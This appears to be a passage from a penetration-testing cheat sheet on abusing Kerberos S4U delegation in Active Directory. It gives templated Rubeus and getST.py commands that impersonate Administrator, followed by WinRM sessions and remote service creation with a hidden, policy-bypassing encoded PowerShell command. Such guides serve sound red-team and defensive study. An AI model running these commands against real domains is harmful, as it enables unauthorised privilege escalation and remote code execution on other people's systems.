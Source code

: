 ###### S4U service tickets request

`Rubeus`'s `s4u` module can be used to request `S4U2self` `service tickets`
for the targeted service(s). The `NTLM` hash of the controlled service account
is required by the module and can be, if necessary, computed using `Rubeus`'s
`hash` module. The `impackets`'s `getST.py` Python script may be used as well.

For machine takeover, the targeted service(s) can be specified through their
respective `SPN` in the form of `<SERVICE_NAME>/<MACHINE_HOSTNAME>` or
`<SERVICE_NAME>/<MACHINE_FQDN>`.

```
# Requests S4U service ticket(s) for the specified service(s) under the identity of the provided service account.
# Example of <SPN> for Rubeus's msdsspn or getST.py: host/<HOSTNAME> or host/<HOSTNAME_FQDN>
# Example of <SERVICE_NAME | SERVICES_NAME> for Rubeus'altservice: host,cifs,http

# If necessary, computes the NTLM hash of the specified password.
Rubeus.exe hash /password:<PASSWORD>

Rubeus.exe s4u /domain:<DOMAIN_FQDN> /user:<CONTROLLED_SERVICE_ACCOUNT_USERNAME | CONTROLLED_MACHINE_ACCOUNT_NAME$> /rc4:<NTLM> /impersonateuser:<Administrator | USERNAME> /msdsspn:<SPN> [/altservice:<SERVICE_NAME | SERVICES_NAME>] /ptt

getST.py -spn <SPN> -impersonate <Administrator | USERNAME> -dc-ip <DC_IP> '<DOMAIN>/<CONTROLLED_MACHINE_ACCOUNT_NAME$:<CONTROLLED_MACHINE_ACCOUNT_PASSWORD>'
```

The received `S4U2self` `service tickets` will be automatically injected in
(and overwrite) the current logon session by `Rubeus` if the `/ptt` option is
specified.

###### S4U service tickets exploitation

From a Windows attacking machine, `WinRM` can be used to remote execute
PowerShell commands if the service is exposed on the target system (port TCP
5985 / 5986). PowerShell remoting requires `service tickets` for the `HOST` and
`HTTP` services, and may, depending on the targeted host, requires tickets for
the `WSMAN` and / or `RPCSS` services as well.

```
Rubeus.exe s4u /domain:<DOMAIN_FQDN> /user:<CONTROLLED_SERVICE_ACCOUNT_USERNAME | CONTROLLED_MACHINE_ACCOUNT_NAME$> /rc4:<NTLM> /impersonateuser:<Administrator | USERNAME> /msdsspn:host/<FQDN_TARGET_SYSTEM> /altservice:http,wsman,rpcss

Enter-PSSession -ComputerName <TARGET_SYSTEM_HOSTNAME>
```

Another reliable way to leverage the `s4u` `service ticket` for remote code
execution is based on the creation and execution of Windows services. This
technique presents the advantage of being usable from both Windows and Linux
operating systems. Indeed, most Linux utilities can only make use of a single
`Kerberos tickets` at a time and only one `service ticket` for the `HOST` `SPN`
is required to remotely create and start services.

```
# <SERVICE_COMMAND> example with a Windows binary: <cmd.exe /c '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c '<COMMAND> <COMMAND_ARGS>' |  %ComSpec% /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <ENCODED_BASE64_CMD> | ...>

# Windows
Rubeus.exe s4u /domain:<DOMAIN_FQDN> /user:<CONTROLLED_SERVICE_ACCOUNT_USERNAME | CONTROLLED_MACHINE_ACCOUNT_NAME$> /rc4:<NTLM> /impersonateuser:<Administrator | USERNAME> /msdsspn:host/<FQDN_TARGET_SYSTEM> /ptt
sc \\<TARGET_SYSTEM_HOSTNAME> create <SERVICE_NAME> binpath= "<SERVICE_COMMAND>"
sc \\<TARGET_SYSTEM_HOSTNAME> start <SERVICE_NAME>

```